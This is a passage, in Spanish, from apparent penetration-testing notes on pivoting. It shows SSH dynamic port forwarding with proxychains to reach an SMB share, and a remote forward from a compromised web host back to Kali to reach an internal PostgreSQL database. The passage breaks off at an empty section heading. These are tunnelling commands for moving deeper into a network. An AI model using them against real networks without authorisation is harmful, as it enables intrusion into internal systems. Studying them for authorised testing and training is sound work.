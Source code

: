 ##### Máquina WEB

```bash
ssh -N -D 0.0.0.0:9999 <user>@10.10.100.20
```

##### Kali

Agregamos la conexión al proxy en el archivo `proxychains4.conf` (Kali) en Parrot es `proxychains.conf`.

```bash
vim /etc/proxychains4.conf
socks5 192.168.50.10 9999
proxychains smbclient -p 4455 //172.16.50.10/<SHARE> -U <USERNAME> --password=<PASSWORD>
```

####  6.3.3. <a name='remote-port-forwarding'></a>Remote Port Forwarding

![Remote Port Forwarding](./img/remote_dynamic_port_forwarding.png)

*KALI <-> FIREWALL <-> WEB > DATABASE > SHARES*


##### Kali

```bash
sudo systemctl start ssh
sudo ss -tulpn
```

##### Máquina Web

```bash
ssh -N -R 127.0.0.1:2345:10.10.100.20:5432 kali@192.168.50.10
```

##### Kali

```bash
psql -h 127.0.0.1 -p 2345 -U postgres
```

####  6.3.4. <a name='remote-dynamic-port-forwarding'></a>Remote Dynamic Port Forwarding
